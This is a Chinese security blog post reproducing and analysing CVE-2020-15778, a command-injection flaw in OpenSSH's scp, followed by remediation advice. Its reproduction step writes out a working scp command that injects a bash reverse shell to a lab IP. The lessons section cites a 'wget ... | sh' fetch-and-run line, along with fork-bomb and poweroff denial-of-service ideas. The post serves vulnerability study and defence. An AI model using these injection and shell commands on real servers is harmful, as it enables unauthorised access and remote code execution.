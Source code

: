 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/6HUPL19bSr2Ccco0qd5tQw)

  

  

**上方蓝色字体关注我们，一起学安全！**

**作者：Menge & 小泫** **@Timeline Sec**

**本文字数：1160**

**阅读时长：3～4min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

OpenSSH 是 SSH（Secure SHell）协议的免费开源实现。OpenSSH 是个 SSH 的软件，linux/unix 都用 openssh 软件提供 SSH 服务。scp 是 secure copy 的缩写, scp 是 linux 系统下基于 ssh 登陆进行安全的远程文件拷贝命令。

**0x02 漏洞概述**  

  

该漏洞编号 CVE-2020-15778。OpenSSH 的 8.3p1 及之前版本中的 scp 允许在 scp.c 远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数 linux 系统受影响。  

**0x03 影响版本**  

**openssh <= openssh-8.3p1**

**0x04 环境搭建**  

为  

未安装 ssh：  

进行安装

```
sudo apt-get install openssh-client
```

  
已安装 ssh：  
ssh -V 查看版本信息  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjzTQpzIPDwSBeduVEBVI9G4GEH89mEPqyUaG08VQvRYm75niaRpF4rUBwictbHsyZgg1SJ4CicPISqQ/640?wx_fmt=png)

**0x05 漏洞复现**  

前提：需要知道目标 ssh 账号密码  

目标：192.168.233.130  

本机：192.168.233.140

执行命令：  

```
scp /tmp/hello.txt xuan@192.168.233.130:'\`bash -i >& /dev/tcp/192.168.233.140/9999 0>&1\`'
```

![](https://mmbiz.qpic.cn/mmbiz_gif/VfLUYJEMVsjzTQpzIPDwSBeduVEBVI9G3dyxeBY6Oendx1mRj5DcMjicwqRsQHM09PiaSzSxVQ8Yibjww8yLfGKcA/640?wx_fmt=gif)

将本地文件复制到远程机器，本来后面跟的是文件名，但是由于未正确过滤其中的特殊字符导致命令注入。  

**0x06 漏洞分析**  

在使用 scp 远程传输文件时, 正常使用是这样的

```
scp SourceFile user@host:目录/TargetFile
```

  
在执行上面这条命令时会执行一个本地命令  

```
scp -t 目录/TargetFile
```

  
对应源码如下:  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjzTQpzIPDwSBeduVEBVI9GDRgbmyXPoEkIdFBYsibpicTRBEMvSBIzA2s8ThKnDhMZruBWIksFkrbg/640?wx_fmt=png)

  
源码地址:

```
https://github.com/openssh/openssh-portable/blob/a2855c048b3f4b17d8787bd3f24232ec0cd79abe/scp.c#L989
```

  
由此可以看到对用户输入的目录没有做过滤，导致攻击者可以利用反引号（\` \`）可以执行一些 shell 命令。  

  

> **反引号在 linux 中的作用:**
> 
> 反引号（\`）这个字符所对应的键一般位于键盘的左上角，不要将其同单引号（’）混淆。反引号括起来的字符串被 shell 解释为命令行，在执行时，shell 首先执行该命令行，并以它的标准输出结果取代整个反引号（包括两个反引号）部分。如例程中的 \`date -d '-1 day' +%Y%m%d\` 就是把这条命令的结果赋给变量 OPDATE。

**0x07 经验总结**  

下面来看看发现漏洞的作者是怎么总结的：

1、攻击者可以 poweroff 在文件名中放入 “” 或“ 叉子炸弹”，它会导致服务器崩溃或重新启动，这将导致 DOS 攻击。

2、攻击者可以使用 bash 绑定外壳之类的各种技巧来获取绑定 / 反向外壳，或执行 “wget https://unknownsource.com/possfullydangerous.sh -O- | sh” 之类的 sh 文件。

3、由于 SHELL 首先执行 backtick 命令，然后执行 scp 命令，因此我们可以在 backtick 中编写一个无限循环，这将导致套接字长时间打开。多次此类攻击将不会为新连接留下套接字，并会导致 DDOS。  
对于用户来说，ssh 被阻止，但 authorized\_keys 文件中的命令选项允许使用 scp 的情况。您可以绕过此限制并在远程服务器上执行命令。  
我翻阅了大量资料，这一篇讲 authorized\_keys 文件说明较为详细:

```
https://www.ibm.com/support/knowledgecenter/en/SSLTBW\_2.3.0/com.ibm.zos.v2r3.foto100/authkeyf.htm
```

  

在某些情况下，确实是有它的价值的，我在 google(国内查不到 authorized\_keys 的资料) 上查到有人设置，authorized\_keys 允许 SCP 但不允许使用 SSH 实际登录，当然可能较少，在这种情况下，漏洞显得很有作用了。  

**0x08 修复方式**  

1、周期性的更换密码或密钥

2、使用 rsync 代替 scp  
  

```
参考链接：
```

https://github.com/cpandya2909/CVE-2020-15778/

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行